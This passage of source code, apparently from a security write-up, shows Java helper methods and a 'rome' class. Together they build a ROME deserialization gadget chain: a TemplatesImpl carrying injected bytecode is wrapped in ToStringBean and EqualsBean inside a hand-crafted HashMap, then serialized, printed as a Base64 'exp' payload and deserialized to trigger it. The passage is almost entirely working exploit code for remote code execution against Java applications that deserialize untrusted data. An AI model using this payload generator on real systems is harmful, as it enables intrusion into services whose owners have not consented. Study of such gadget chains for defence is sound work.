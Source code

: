 ```bash
        factory.setAccessible(true);
        bytecodes.setAccessible(true);
        // 修改变量值
        name.set(templates,"asdasd");
        clazz.set(templates,null);
        factory.set(templates, new TransformerFactoryImpl());
        bytecodes.set(templates,targetByteCodes);
        return templates;
    }

    public static void setFieldValue(Object o, String fieldName, Object value) throws Exception {
        Field field = o.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(o,value);
    }
    public static byte[] serialize(Object o) throws IOException {
        ByteArrayOutputStream bao = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bao);
        oos.writeObject(o);
        return bao.toByteArray();
    }

    public static void unserialize(byte[] b) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bis = new ByteArrayInputStream(b);
        ObjectInputStream ois = new ObjectInputStream(bis);
        ois.readObject();
    }
}
```

rome.java

```bash
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javax.xml.transform.Templates;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.util.Base64;
import java.util.HashMap;

public class rome {

    public static void main(String[] args) throws Exception{
        TemplatesImpl template = (TemplatesImpl) util.getTeml();
        ToStringBean toStringBean = new ToStringBean(Templates.class, template);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);

        HashMap hashmap = new HashMap();
        util.setFieldValue(hashmap,"size",2);
        Class nodeC = Class.forName("java.util.HashMap$Node");
        Constructor nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);
        Object tbl = Array.newInstance(nodeC, 1);
        Array.set(tbl, 0, nodeCons.newInstance(0, equalsBean, 1, null));
        util.setFieldValue(hashmap,"table",tbl);

        byte[] ser = util.serialize(hashmap);
        String exp = Base64.getEncoder().encodeToString(ser);
        System.out.println(exp);
        util.unserialize(ser);
    }
```